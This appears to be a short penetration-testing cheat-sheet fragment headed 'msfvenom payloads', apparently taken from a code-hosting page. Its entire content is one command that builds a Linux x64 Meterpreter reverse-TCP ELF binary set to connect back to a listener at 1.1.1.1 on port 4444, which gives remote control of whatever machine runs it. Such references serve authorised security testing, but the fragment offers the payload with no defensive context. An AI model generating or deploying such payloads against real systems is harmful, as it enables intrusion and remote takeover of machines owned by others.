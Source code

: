 # msfvenom payloads
## linux target
### meterpreter
elf binary
`msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=1.1.1.1 LPORT=4444 -f elf -o /path/to/bin`